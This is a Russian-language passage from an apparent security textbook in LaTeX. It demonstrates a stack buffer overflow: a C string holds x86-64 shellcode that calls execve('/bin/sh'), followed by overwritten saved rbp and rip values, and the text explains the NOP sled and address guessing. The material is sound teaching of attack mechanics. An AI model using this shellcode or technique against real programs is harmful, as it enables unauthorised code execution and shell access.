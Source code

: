 Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в результате которого записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой, что предполагаемое значение стека, то есть требуемый адрес rip, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

